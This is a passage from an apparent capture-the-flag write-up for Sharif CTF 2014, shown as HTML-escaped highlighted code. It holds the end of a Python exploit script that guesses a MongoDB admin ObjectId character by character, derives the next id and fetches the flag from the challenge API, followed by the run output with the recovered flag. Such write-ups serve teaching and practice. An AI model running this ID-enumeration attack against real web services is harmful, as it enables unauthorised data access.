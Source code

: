             &lt;span class="k">print&lt;/span>&lt;span class="p">(&lt;/span>&lt;span class="s">"    + Admin id guessed: "&lt;/span> &lt;span class="o">+&lt;/span> &lt;span class="n">admin_id&lt;/span>&lt;span class="p">)&lt;/span>
            &lt;span class="k">print&lt;/span>&lt;span class="p">(&lt;/span>&lt;span class="s">""&lt;/span>&lt;span class="p">)&lt;/span>
            &lt;span class="k">break&lt;/span>

        &lt;span class="n">time&lt;/span>&lt;span class="o">.&lt;/span>&lt;span class="n">sleep&lt;/span>&lt;span class="p">(&lt;/span>&lt;span class="mi">1&lt;/span>&lt;span class="p">)&lt;/span>

&lt;span class="c"># Getting the flag&lt;/span>
&lt;span class="k">print&lt;/span>&lt;span class="p">(&lt;/span>&lt;span class="s">"[*] Go for the flag!"&lt;/span>&lt;span class="p">)&lt;/span>
&lt;span class="n">flag_id&lt;/span> &lt;span class="o">=&lt;/span> &lt;span class="n">format&lt;/span>&lt;span class="p">(&lt;/span>&lt;span class="nb">int&lt;/span>&lt;span class="p">(&lt;/span>&lt;span class="n">admin_id&lt;/span>&lt;span class="p">,&lt;/span> &lt;span class="mi">16&lt;/span>&lt;span class="p">)&lt;/span> &lt;span class="o">+&lt;/span> &lt;span class="mi">1&lt;/span>&lt;span class="p">,&lt;/span> &lt;span class="s">'x'&lt;/span>&lt;span class="p">)&lt;/span>
&lt;span class="n">url&lt;/span> &lt;span class="o">=&lt;/span> &lt;span class="s">"http://ctf.sharif.edu:25489/api.php?q=flag&id="&lt;/span>&lt;span class="o">+&lt;/span>&lt;span class="n">flag_id&lt;/span>
&lt;span class="n">response&lt;/span> &lt;span class="o">=&lt;/span> &lt;span class="n">requests&lt;/span>&lt;span class="o">.&lt;/span>&lt;span class="n">get&lt;/span>&lt;span class="p">(&lt;/span>&lt;span class="n">url&lt;/span>&lt;span class="p">,&lt;/span> &lt;span class="n">headers&lt;/span> &lt;span class="o">=&lt;/span> &lt;span class="n">headers&lt;/span>&lt;span class="p">,&lt;/span> &lt;span class="n">cookies&lt;/span>&lt;span class="o">=&lt;/span>&lt;span class="n">cookies&lt;/span>&lt;span class="p">)&lt;/span>
&lt;span class="k">print&lt;/span> &lt;span class="n">response&lt;/span>&lt;span class="o">.&lt;/span>&lt;span class="n">text
&lt;/span></code></pre>
> 
> <pre><code class="language-bash" data-lang="bash">&lt;span class="c"># ./sharif14_pwnit.py&lt;/span>
&lt;span class="o">[&lt;/span>*&lt;span class="o">]&lt;/span> Guessing character 1
    + Admin id guessed: 5

&lt;span class="o">[&lt;/span>*&lt;span class="o">]&lt;/span> Guessing character 2
    + Admin id guessed: 53

&lt;span class="o">[&lt;/span>...&lt;span class="o">]&lt;/span>

&lt;span class="o">[&lt;/span>*&lt;span class="o">]&lt;/span> Guessing character 23
    + Admin id guessed: 53fadd3d7137a495319e10f

&lt;span class="o">[&lt;/span>*&lt;span class="o">]&lt;/span> Guessing character 24
    + Admin id guessed: 53fadd3d7137a495319e10f3


&lt;span class="o">[&lt;/span>*&lt;span class="o">]&lt;/span> Go &lt;span class="k">for&lt;/span> the flag!

array&lt;span class="o">(&lt;/span>2&lt;span class="o">)&lt;/span> &lt;span class="o">{&lt;/span>
  &lt;span class="o">[&lt;/span>&lt;span class="s2">"_id"&lt;/span>&lt;span class="o">]=&lt;/span>&gt;
  object&lt;span class="o">(&lt;/span>MongoId&lt;span class="o">)&lt;/span>&lt;span class="c">#7 (1) {&lt;/span>
    &lt;span class="o">[&lt;/span>&lt;span class="s2">"$id"&lt;/span>&lt;span class="o">]=&lt;/span>&gt;
    string&lt;span class="o">(&lt;/span>24&lt;span class="o">)&lt;/span> &lt;span class="s2">"53fadd3d7137a495319e10f4"&lt;/span>
  &lt;span class="o">}&lt;/span>
  &lt;span class="o">[&lt;/span>&lt;span class="s2">"flag"&lt;/span>&lt;span class="o">]=&lt;/span>&gt;
  string&lt;span class="o">(&lt;/span>30&lt;span class="o">)&lt;/span> &lt;span class="s2">"9fmTOOdbm1A76o40Bb9N3wpqvozdJI"&lt;/span>
&lt;span class="o">}&lt;/span></code></pre>

Source : <a title="Blog Dul Ac" href="http://blog.dul.ac/2014/10/SHARIF_QUALS_14/" target="_blank">http://blog.dul.ac/2014/10/SHARIF_QUALS_14/</a>
